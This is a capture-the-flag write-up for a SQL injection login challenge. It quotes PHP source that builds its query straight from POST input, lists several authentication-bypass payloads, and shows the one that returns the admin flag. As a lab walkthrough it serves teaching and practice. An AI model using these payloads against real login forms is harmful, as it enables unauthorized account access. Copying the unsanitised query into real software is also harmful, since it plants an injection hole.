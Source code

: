 Description: Solved by 242 teams.

Hey I just learned this thing called MySQL! My admin account should be safe now!

This challenge is clearly telling us to spew SQLi all up in their db.

Going to the website and viewing the source code, we can see on the final line the following code snippet:

`<!-- source code at index.source.php -->`

Sweet, it looks like we have an indexed source code file that has the PHP code visible. The relevant code:
```
<?php

error_reporting(0);

if (isset($_POST['submit']) && isset($_POST['username']) && isset($_POST['password']) && $_POST['submit'] == "Login!") {
    $username = $_POST['username'];
    $password = $_POST['password'];
    include("functions.php"); // connect to mysql server

    $query = "SELECT * FROM `users` WHERE username='$username' AND password='$password'";
    $result = mysql_query($query);
    $rows = array();
    while($row = mysql_fetch_array($result)) {
        $rows[] = $row;
    }
    if (count($rows) != 1) {
        echo "<div class='alert alert-danger'>No accounts found with that username. <a href='index.php'>Try again?</a></div>";
    } else {
        $row = $rows[0];
        echo "<div class='alert alert-success'>Welcome, <code>" . $row['username'] . "</code>! ";
        if ($row['username'] == "admin") {
            echo "Your flag is <code>$flag</code>.";
        }
        echo "</div>";
    }

} else {
    ?>
```

What we are really going to focus on is only the `SELECT` query:

```
$query = "SELECT * FROM `users` WHERE username='$username' AND password='$password'";
```

This challenge seemed pretty buggy and bitchy about how it wanted it to be solved. We obviously will use admin as the username, since it's a valid user in the table (according to the description). There are plenty of queries that I tried on the password field, which were definitely valid, but the server was neglecting to accept it.

For example:
`' OR 'a' = 'a'#--` `' OR 1=1/*` etc, etc

Eventually what I had to end up doing was comparing back to the username table again:
`' or username = 'admin'#--`

This makes our query:
```
$query = "SELECT * FROM `users` WHERE username='admin' AND password='' or username = 'admin'#=='"
```

The server hapilly accepts this query and responds accordingly with the `$flag` variable:

`Welcome, admin! Your flag is easyctf{54771309-67e5-4704-8743-6981a40b}.`
